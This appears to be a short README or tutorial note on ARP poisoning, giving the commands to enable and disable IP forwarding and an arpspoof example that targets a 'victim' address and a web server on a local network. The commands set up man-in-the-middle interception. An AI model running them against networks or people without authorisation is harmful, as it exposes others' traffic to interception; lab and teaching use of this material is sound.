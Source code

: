#### ARP poisoning
To enable packet forwarding:
`echo 1 > /proc/sys/net/ipv4/ip_forward`
To disable packet forwarding:
`echo 0 > /proc/sys/net/ipv4/ip_forward`
<newline>
To run arp spoof:
`arpspoof -i <interface> -t <target> -r <host>`

For example:
1. `echo 1 > /proc/sys/net/ipv4/ip_forward`
2. `arpspoof -i eth0 -t 192.168.4.11 -r 192.168.4.16`
`-t` is for assigning victim ip address.
`-r` is for assignig web server the host target is communicating with.